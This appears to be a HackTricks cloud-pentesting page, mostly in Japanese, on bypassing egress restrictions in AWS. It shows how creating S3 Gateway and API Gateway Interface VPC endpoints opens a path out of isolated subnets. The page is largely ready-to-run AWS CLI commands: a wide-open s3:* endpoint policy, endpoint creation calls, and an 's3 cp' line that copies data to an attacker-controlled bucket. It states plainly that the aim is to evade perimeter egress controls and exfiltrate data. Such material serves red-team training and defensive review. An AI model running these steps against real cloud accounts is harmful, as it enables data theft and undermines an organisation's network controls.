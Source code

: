 # AWS – 分離されたサブネットからVPC Endpoints経由でのEgress Bypass

{{#include ../../../../banners/hacktricks-training.md}}

## Summary

この手法は、Internet Gateways や NAT を持たないサブネットからデータを外部に送るチャネルを作るために VPC Endpoints を悪用します。Gateway endpoints（例: S3）はサブネットのルートテーブルに prefix‑list ルートを追加します。Interface endpoints（例: execute-api、secretsmanager、ssm など）は、security groups で保護された private IP を持つ到達可能な ENIs を作成します。最小限の VPC/EC2 パーミッションがあれば、攻撃者はパブリック Internet を経由しない制御された egress を有効化できます。

> Prereqs: existing VPC and private subnets (no IGW/NAT). You’ll need permissions to create VPC endpoints and, for Option B, a security group to attach to the endpoint ENIs.

## Option A – S3 Gateway VPC Endpoint

**変数**
- `REGION=us-east-1`
- `VPC_ID=<target vpc>`
- `RTB_IDS=<comma-separated route table IDs of private subnets>`

1) Create a permissive endpoint policy file (optional). Save as `allow-put-get-any-s3.json`:
```json
{
"Version": "2012-10-17",
"Statement": [ { "Effect": "Allow", "Action": ["s3:*"], "Resource": ["*"] } ]
}
```
2) S3 Gateway endpoint を作成する（選択したルートテーブルに S3 prefix‑list のルートを追加します）:
```bash
aws ec2 create-vpc-endpoint \
--vpc-id $VPC_ID \
--service-name com.amazonaws.$REGION.s3 \
--vpc-endpoint-type Gateway \
--route-table-ids $RTB_IDS \
--policy-document file://allow-put-get-any-s3.json   # optional
```
Evidence to capture:
- `aws ec2 describe-route-tables --route-table-ids $RTB_IDS` は AWS S3 プレフィックスリストへのルートを示します（例: `DestinationPrefixListId=pl-..., GatewayId=vpce-...`）。
- それらのサブネット内の instance（with IAM perms）から、Internet を使わずに S3 経由で exfil できる:
```bash
# On the isolated instance (e.g., via SSM):
echo data > /tmp/x.txt
aws s3 cp /tmp/x.txt s3://<your-bucket>/egress-test/x.txt --region $REGION
```
## オプションB – Interface VPC Endpoint for API Gateway (execute-api)

**変数**
- `REGION=us-east-1`
- `VPC_ID=<target vpc>`
- `SUBNET_IDS=<comma-separated private subnets>`
- `SG_VPCE=<security group for the endpoint ENIs allowing 443 from target instances>`

1) interface endpoint を作成して SG をアタッチする:
```bash
aws ec2 create-vpc-endpoint \
--vpc-id $VPC_ID \
--service-name com.amazonaws.$REGION.execute-api \
--vpc-endpoint-type Interface \
--subnet-ids $SUBNET_IDS \
--security-group-ids $SG_VPCE \
--private-dns-enabled
```
収集する証拠:
- `aws ec2 describe-vpc-endpoints` が `available` 状態で `NetworkInterfaceIds`（サブネット内の ENIs）を表示する。
- それらのサブネット内のインスタンスは、これらの VPCE ENIs 経由で Private API Gateway エンドポイントに到達できる（Internet 経路は不要）。

## 影響
- AWS-managed のプライベート経路を利用して、周辺の egress 制御を回避する。
- IGW/NAT なしで、分離されたサブネットからのデータ持ち出しを可能にする（例: S3 への書き込み、Private API Gateway の呼び出し、Secrets Manager/SSM/STS へのアクセスなど）。

{{#include ../../../../banners/hacktricks-training.md}}
